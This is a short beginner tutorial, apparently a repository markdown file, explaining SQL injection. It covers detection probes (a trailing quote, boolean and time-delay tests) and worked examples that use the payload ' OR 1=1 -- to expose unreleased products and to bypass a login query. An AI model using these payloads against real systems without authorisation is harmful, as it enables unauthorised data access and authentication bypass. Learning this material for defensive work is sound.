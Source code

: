 SQL injection is a type of cyberattack where malicious SQL code is inserted into a query in order to manipulate a database. This vulnerability typically occurs when user inputs are improperly validated or sanitized, allowing an attacker to execute arbitrary SQL commands.

## why it can be used ?
- Bypass Authentication mechanism
- Retrieve Sensitive information
- Alter or Delete datas.
- Take control of the databases.


## how to detect SQL injection Vulnerabilities ?
- add `'` character at the end of URL and look for error , if errors occurs it means site is vulnerable to SQL injection.
- Submit boolean conditions such as `OR 1=1 ` and `OR 1=2`, and look for differences in the application's responses.
- Submit payloads designed to trigger time delays and look for the differences in the time taken to respond.

## Usual locations where SQL injection can be applied .
- In `UPDATE` statements, within the updated values or the `WHERE` clause.
- In `INSERT` statements, within the inserted values.
- In `SELECT` statements, within the table or column name.
- In `SELECT` statements, within the `ORDER BY` clause.

## Examples of SQL injections:
we can display the product of different categories using :
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

the above query will displays the products which category is Gifts and which is also released. 
```
NOTE:
released = 1 means released
released = 0 means not released
```

now we can display the products of any category , either that is released or unreleased products.

payloads : ``` ' OR 1=1 --```

URL before payload :
```
https://demosite.com/products?category=Gifts
```

after adding payloads:
```
https://demosite.com/products?category=Gifts' OR 1=1 --
```

Results in SQL Query :
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

you can see in the above query , the query will check for the product with Gifts category or 1= 1 which is always true . and the rest of the logic where commented and no longer working and it will display the unreleased products too.


### Login  Bypass using SQL injection :

![login image](Images/login.png)

you can see how login Authenication in the system. Attacker manipulate the whole query by sending payloads as a username or password. 

authentication logic using SQL:
```
SELECT * FROM users WHERE username = '' AND password = '' ;
```

Payloads :
```
' OR 1=1 --
```

Manipulated Query :
```
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '' ;

```

The manipulated query above checks if the username is empty or if 1=1. Since 1=1 is always true, according to Boolean logic, if one condition is true, the entire expression will evaluate to true, allowing the user to log in. you can search the payload online or can be ask to chatgpt.






